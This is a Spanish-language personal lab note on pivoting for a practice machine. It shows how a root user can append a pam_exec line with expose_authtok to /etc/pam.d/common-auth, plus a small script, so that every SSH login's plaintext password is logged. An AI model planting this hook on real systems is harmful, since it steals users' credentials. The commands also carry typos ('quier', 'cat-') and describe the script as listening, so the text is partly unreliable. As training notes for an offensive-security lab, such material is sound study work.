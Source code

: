[[Lab Pivoting, Tunneling - Synfonos]]
#pivoting 
Una vez que seamos usuarios root de una máquina, podemos recibir credenciales de ssh de todos los usuarios que entren por SSH; y el proceso será el siguiente:

- PASO 1 - Crear un script llamado no.sh con el siguiente código, que si lo ejecutamos permanecerá a la escucha esperando para recibir credenciales del usuario:
```bash
echo "$(date) $PAM_USER, $(cat-), From: $PAM_RHOST" >> /var/log/dame_contraseña.log
```

![[Pasted image 20240615203151.png]]

- PASO 2 - Editamos el fichero /etc/pam.d/common-auth; y añadimos esta línea justo al final, donde hacemos el llamamiento al script que antes hemos creado:

```bash
auth optional pam_exec.so quier expose_authtok /home/mario/no.sh
```

![[Pasted image 20240615203202.png]]

Por tanto ahora simplemente ejecutamos el script no.sh y estará a la escucha esperando a recibir alguna conexión para enviarnos las credenciales de dicho usuario al fichero /var/log/dame_contraseña.log:

![[Pasted image 20240615203222.png]]

Y ahora si iniciamos sesión por ssh, habremos recibido las credenciales:

![[Pasted image 20240615203226.png]]

